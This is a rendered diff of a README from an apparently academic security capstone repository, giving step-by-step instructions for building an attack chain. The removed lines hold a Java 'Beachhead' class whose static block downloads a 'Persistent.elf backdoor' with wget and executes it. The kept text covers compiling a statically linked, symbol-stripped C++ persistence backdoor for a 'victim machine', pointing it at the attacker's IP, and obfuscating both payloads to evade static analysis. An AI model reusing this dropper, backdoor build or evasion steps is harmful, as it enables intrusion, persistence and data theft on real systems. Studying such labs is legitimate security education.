

Before and after one commit to newmie10/564Capstone, a Markdown page: README.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -196,25 +227,6 @@ Open a new terminal:
 
 ```
 cd ~/564Capstone/payload
-nano Beachhead.java
-```
-
-Paste the following:
-
-```
-public class Beachhead { ... }
-```
-
-*(Alternatively, you can copy the contents of `BeachheadObfuscated.java` provided in this repository, which employs ProGuard-style obfuscation to evade static analysis.)*
-public class Beachhead {
-    static {
-        try {
-            // Download the Persistent.elf backdoor and execute it
-            String[] cmd = {"/bin/bash", "-c", "wget -q http://127.0.0.1:8000/Persistent.elf -O /tmp/p && chmod +x /tmp/p && /tmp/p"};
-            Runtime.getRuntime().exec(cmd);
-        } catch (Exception e) {}
-    }
-}
 ```
 
 Compile it targeting Java 17 bytecode (use the obfuscated filename if you chose that route):
@@ -223,14 +235,16 @@ Compile it targeting Java 17 bytecode (use the obfuscated filename if you chose
 /usr/lib/jvm/java-17-openjdk-amd64/bin/javac Beachhead.java
 ```
 
-**[NEW] Compile the C++ Persistence Backdoor**
+**Compile the C++ Persistence Backdoor**
 You must compile the `Persistent.cpp` source code into an ELF binary before deploying. It is crucial to statically link it and include the OpenSSL libraries so it runs properly on the victim machine regardless of system libraries:
 
 ```
 # NOTE: Update the 127.0.0.1 IP inside Persistent.cpp and Beachhead.java
 # to your ATTACKER machine's IP if you are testing across a network!
-g++ -std=c++17 -static Persistent.cpp -o Persistent.elf -lssl -lcrypto
+g++ -std=c++17 -s -static Persistent.cpp -o Persistent.elf -lssl -lcrypto
 ```
+
+
 *(Alternatively, you can run `python3 obfuscator.py` to generate and compile the obfuscated variant `PersistentObfuscated.cpp`, which encrypts strings via XOR, renames identifiers, and injects opaque predicates to evade static analysis).*
 
 Confirm the compiled files exist:
````
Also changed, not shown: other parts of README.md (+60 -11 lines), images/Sample_Exfil.png (added), 1 other file.
